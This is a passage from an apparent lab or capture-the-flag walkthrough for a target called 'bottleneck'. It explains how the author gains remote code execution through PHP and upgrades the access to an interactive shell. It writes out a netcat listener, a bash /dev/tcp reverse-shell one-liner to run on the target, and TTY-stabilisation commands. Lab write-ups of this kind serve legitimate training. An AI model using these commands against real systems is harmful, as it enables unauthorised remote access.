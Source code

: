 Also please note that I have been test it may times before I got it to work, this is really hard machine I think that requires a lot of concentration and understanding of code, in this case PHP.

5. Initiation: so now after we have all set we can execute the code and on another terminal open listener for port 443.
![op-003.gif](/assets/images/op-003.gif)
Please note, the last step (step 4) was long since we had to research on the WEB more to understand how to exploit the reference point and run remote code to gain access.

6. Interactive Shell: Since the reverse shell we have  so far is not so compatible we can make it full interactive with the following, first start listiner on the kali
```
nc -nvlp 443
```
then we just need to run on the target.
```
 /bin/bash -c 'bash -i >& /dev/tcp/192.168.45.159/443 0>&1'
```
On our kali just need to run the following:
```
www-data@bottleneck:~/html$ ^Z
zsh: suspended  nc -nvlp 443
```
As you can see I have type ctrl+Z to take the shell to background, then we just need to run more commands.
```
└─$ stty -a |cut -d';' -f2-3 | head -n1
rows 15; columns 116
└─$ stty raw -echo;fg  
                    stty rows 15 columns 116
www-data@bottleneck:~/html$
www-data@bottleneck:~/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
After we finish we should have full interactive shell.
